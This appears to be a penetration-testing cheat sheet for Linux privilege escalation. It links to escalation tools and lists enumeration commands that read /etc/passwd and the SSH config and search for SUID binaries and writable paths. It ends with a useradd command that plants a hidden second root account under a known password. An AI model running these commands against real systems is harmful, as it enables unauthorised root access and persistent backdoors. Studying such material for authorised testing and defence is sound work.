 # Privilege Escalation

## Scripts

* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [http://pentestmonkey.net/tools/audit/unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check)
* linux-exploit-suggester.py
* [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)
* [https://github.com/TH3xACE/SUDO\_KILLER](https://github.com/TH3xACE/SUDO\_KILLER)
* [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

## Articles

* [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [https://github.com/sagishahar/lpeworkshop](https://github.com/sagishahar/lpeworkshop)
* [https://blog.thehackingnomad.com/cheat-sheet-series/privesc-linux](https://blog.thehackingnomad.com/cheat-sheet-series/privesc-linux)

## Manual

```
# Current user and hostname
whoami
id
hostname

# Existing users
cat /etc/passwd

# OS version & architecture
cat /etc/issue
cat /etc/*-release
uname -a
arch

# Processes & services
ps aux

# Networking info
ip a
/sbin/route
ss -anp

# Firewall
cat /etc/iptables
# check for iptables-save and iptables-restore commands. See if the dump file has weak permissions

# Scheduled tasks
# verify cron files permissions and content, if possible
ls -lah /etc/cron*
cat /etc/crontab
grep "CRON" /var/log/cron.log

# Installed applications
dpkg -l
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null

# Check for readable/writable files & directories
find / -writable -type d 2>/dev/null

# Enumerate unmounted disks
cat /etc/fstab
mount
/bin/lsblk

# List device drivers & kernel modules
lsmod
/sbin/modinfo <name>

# Check for binaries that autoelevate
# search for binaries with SUID bit
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -002 -type f -not -path "/proc/*"  2>/dev/null

# Check SSH config
cat /etc/ssh/sshd_config

# Check various places for stuff
/var
/opt
/usr/local/src
/usr/src
/home
```

## Create Admin User

```
# mkpasswd -5 'slysandwich' saltsalt
# $1$saltsalt$ZKH1gzt6khxuPmJvab9iy0


/usr/sbin/useradd -s /bin/bash -o -u 0 -g 0 -d /tmp -p \$1\$saltsalt\$ZKH1gzt6khxuPmJvab9iy0 slysandwich
```
